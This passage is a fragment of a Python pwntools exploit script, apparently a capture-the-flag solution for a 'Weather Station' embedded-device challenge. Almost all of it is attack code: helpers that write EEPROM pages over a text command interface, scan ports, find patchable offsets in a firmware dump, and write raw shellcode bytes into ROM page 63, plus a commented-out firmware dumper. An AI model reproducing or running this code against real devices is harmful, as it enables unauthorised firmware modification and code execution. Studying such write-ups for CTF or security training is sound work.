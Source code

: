 ```python
        rdata += p8(0xff & (~i))
    tmp = p8(page)+b'\xa5\x5a\xa5\x5a'+rdata
    payload = b'w 111137 '+str(len(tmp)).encode('utf-8')
    for i in tmp:
        payload += b' ' + str(i).encode('utf-8')
    io.sendlineafter(b'? ', payload)

def patch(start, end, bytestr):
    dump = open('dump.raw', 'rb').read()
    res = 0
    for offset in range(start, end):
        arr = dump[offset:offset+len(bytestr)]
        notmatch = 0
        for i in range(len(arr)):
            if ((arr[i] & bytestr[i]) != bytestr[i]):
                notmatch = 1
                break
        if notmatch == 0:
            log.info('Patching available at offset '+hex(offset))
            res = offset
            break
    page = offset // 64
    _offset = offset % 64
    pByte = _offset * b'\0' + bytestr
    wrom(page, pByte)



def eeprom(a = 111):
    res = 0
    for i in range(10000):
        cnt = len(str(i))
        tmp = a * (10**cnt) + i
        if (tmp & 0xff == 0 and len(str(tmp)) >= 6):
            res = tmp
            break
    for i in range(256):
        port = res+i
        io.sendlineafter(b'? ', b'r '+str(port).encode('utf-8')+b' 64')
        recv = io.recvuntil(b'-end\n', timeout = 1)
        if (b'error' not in recv and recv != b''):
            print('reading from port ' + str(port & 0xff) + ' ' + recv.decode('utf-8'))
        else:
            print('fail at '+str(port & 0xff))



io.recvuntil(b'Weather Station\n')
#portb = eeprom()
portb = 111137 # & 0xff = 33
w(portb, b'46')
shellcode = b'\x7F\x00\xBF\x40\x00\x50\x0C\x8F\xEE\xE5\xF3\x60\xFC\x85\xEF\xF2\x0F\x80\xEF\x90\x00\x00\x22'
wrom(63, shellcode)
w(portb, b'46')

'''
# This code for dumping firmware
f = open('dump.raw', 'wb')
dump = b''
for i in range(64):
    w(portb, str(i).encode('utf-8'))
    dump+=r(portb, 64)
```